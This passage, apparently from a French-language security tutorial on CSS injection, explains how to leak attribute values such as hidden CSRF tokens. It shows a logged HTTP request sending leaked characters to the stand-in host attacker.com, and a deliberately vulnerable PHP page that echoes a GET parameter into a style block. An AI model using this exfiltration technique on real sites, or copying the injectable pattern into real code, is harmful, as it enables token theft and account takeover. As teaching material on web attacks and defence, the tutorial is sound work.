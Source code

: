 L'attaquant devra continuer son attaque pour récupérer ainsi les caractères restants :

{% code overflow="wrap" %}
```http
GET /?leak=ab4f63f9 HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
L'inconvénient de ces techniques est qu'elles sont limitées à la récupération d'une information présente au sein d'un attribut. Impossible donc ici de récupérer le contenu d'un élément `<span></span>`, d'un `<script></script>` ou d'un paragraphe `<p></p>` par exemple.

Il existe toutefois d'autres techniques permettant cela et qui seront vues dans les prochaines parties de cet article.
{% endhint %}

### Récupération de la valeur d'un attribut d'un élément HTML de type hidden via la pseudo-class CSS `has()`

Une alternative pouvant répondre à certaines limites des combinateurs CSS est d'utiliser le sélecteur CSS `has()` de la façon suivante :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Has attribute selectors iframe with hidden input</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
  </body>
</html>
```
{% endcode %}
